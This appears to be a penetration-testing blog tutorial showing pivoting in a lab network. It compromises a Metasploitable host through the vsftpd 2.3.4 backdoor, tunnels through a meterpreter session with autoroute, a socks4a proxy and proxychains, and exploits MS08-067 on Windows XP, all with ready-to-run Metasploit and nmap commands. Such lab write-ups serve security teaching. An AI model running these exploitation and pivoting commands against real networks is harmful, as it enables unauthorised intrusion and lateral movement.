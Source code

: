 ```yaml
---
title:  "Pivoting - part 2. Proxychains. Metasploit. Practical example."
date:   2021-11-08 10:00:00 +0600
header:
  teaser: "/assets/images/20/2021-11-08_13-25.png"
categories: 
  - pentest
tags:
  - pivoting
  - red team
  - networking
  - pentest
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!           

![pivoting 1](/assets/images/20/2021-11-08_13-25.png){:class="img-responsive"}         

This article I will consider scenarios for attacking protected segments of the corporate network using pivoting techniques via `metasploit` framework and `proxychains`.      

### Scenario

Let's consider at this network topology:       

![pivoting 1](/assets/images/20/pivot-topology.png){:class="img-responsive"}         

> for simplicity, I chose Metasploitable as machine A and vulnerable windows xp sp3 as machine B        

### enum and compromise machine A

Often in a real pentest, you do not know the exact address of the vulnerable machines in network, so first I did hosts discovery:
```bash
nmap -sn -T4 10.10.2.0/24 -oG - | awk '/Up$/{print $2}'
```

![pivoting 1](/assets/images/20/2021-11-08_12-04.png){:class="img-responsive"}         

As you can see, our target is `10.10.2.15`.          

Then scan:
```bash
nmap -Pn -sV 10.10.2.15
```

![pivoting 1](/assets/images/20/2021-11-08_12-18.png){:class="img-responsive"}         


We found a vulnerable `21` port. But in this case we will pwn machine `A` via Metasploit Framework. The Metasploit Framework from Rapid7 is one of the best-known frameworks in the area of vulnerability analysis, and is used by many Red Teams and penetration testers worldwide.     

Firstly, run:
```bash
msfconsole
```

![pivoting 1](/assets/images/20/2021-11-08_12-20.png){:class="img-responsive"}         

In my case I am using `metasploit v5.0.87-dev` from my kali VM.    

Exploitation:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.2.15
set RPORT 21
run
```

![pivoting 1](/assets/images/20/2021-11-08_12-21.png){:class="img-responsive"}         

As you can see, we got a reverse shell session.        

enum network intefaces:
```bash
ifconfig
```

![pivoting 1](/assets/images/20/2021-11-08_12-22.png){:class="img-responsive"}         

And we discovered another network `10.9.1.22/24`.          

update our shell to meterpreter:
```bash
use post/multi/manage/shell_to_meterpreter
set LPORT 4441
set LHOST 10.10.2.6
set SESSION 1
run
```

![pivoting 1](/assets/images/20/2021-11-08_12-24.png){:class="img-responsive"}         


### access hidden network via proxy

Further, according to the scenario, the attacker wants to gain access to the subnet behind the `10.9.1.0/24` interface. To do this, he needs to use a compromised host as a pivot.   

Check our meterpreter session:        
```bash
sessions -l
```

![pivoting 1](/assets/images/20/2021-11-08_12-24_1.png){:class="img-responsive"}         


The following command can be used to create a tunnel through an existing meterpreter session:    
```bash
sessions -i 2
run autoroute -s 10.9.1.0/24
run autoroute -p
```

![pivoting 1](/assets/images/20/2021-11-08_12-26.png){:class="img-responsive"}         

We have added our additional route and this route will work during the meterpreter session is not closed.    

In order for our tools such as nmap to work on this network, we must configure a `socks4a` proxy:     
```bash
use auxiliary/server/socks4a
set SRVHOST 10.10.2.6
set SRVPORT 8090
```

![pivoting 1](/assets/images/20/2021-11-08_12-28.png){:class="img-responsive"}         


Check:        
```bash
netstat -antp
```

![pivoting 1](/assets/images/20/2021-11-08_12-29.png){:class="img-responsive"}         

As you can see the proxy has been created immediately and you can see our current meterpreter session `10.10.2.6:4441`.     

Now we configure `proxychains`. Using the `proxychains` utility, any TCP connection can be sent to the destination via TOR, SOCKS4, SOCKS5, HTTP/HTTPS proxy. Let's make a small update in the settings file `/etc/proxychains.conf`:    
```bash
nvim /etc/proxychains.conf
```

![pivoting 1](/assets/images/20/2021-11-08_12-31.png){:class="img-responsive"}         


Then, scan via `proxychains` and `nmap`:         
```bash
proxychains4 nmap -sT -p21,22,135,139,445 10.9.1.0/24 2>&1 | grep 'OK'
```

![pivoting 1](/assets/images/20/2021-11-08_13-10.png){:class="img-responsive"}         

### exploit and access machine B

scan machine `B`:
```bash
proxychains4 nmap -Pn -sT -sV 10.9.1.12
```

![pivoting 1](/assets/images/20/2021-11-08_13-12.png){:class="img-responsive"}         

so, machine OS is `Microsoft Windows XP`

check port `445` for vulnerability:
```bash
proxychains4 nmap -Pn -sT -sV --script=*smb-vuln* 10.9.1.12
```

![pivoting 1](/assets/images/20/2021-11-08_13-09.png){:class="img-responsive"}         

is vulnerable to `ms08-067`.

Run in `metasploit` again:          
```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/shell/bind_tcp
set RHOSTS 10.9.1.12
set RHOST 10.9.1.12
set LPORT 4447
run
```

![pivoting 1](/assets/images/20/2021-11-08_13-23.png){:class="img-responsive"}         

Here we used the bind shell, so it's not necessary to create the reverse route.        

![pivoting 1](/assets/images/20/2021-11-08_13-25.png){:class="img-responsive"}         

**So, the machine B has been pwned :)**

### conclusion

the attacker discovered secret network by following the steps below.

- attacker got an access to the `machine A (10.10.2.15)` which was on same network with attacker via exploitation `vsftpd 2.3.4` on port `21`          
- then he realise that `machine A` has 2 network interfaces         
- access hidden network via `autoroute` in meterpreter session to `machine A`       
- create `socks4a` proxy         
- then attacker scan ports on new discovered network `10.9.1.0/24`         
- scan ports on `10.9.1.12`           
- `machine B` have vulnerable `smb` on port `445`                  
- successfully exploit `ms08-067` on `machine B`                   
- final       

[pivoting via metasploit](https://www.offensive-security.com/metasploit-unleashed/pivoting/)          
[metasploit](https://www.metasploit.com/)            
[proxychains](https://github.com/haad/proxychains)       

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*             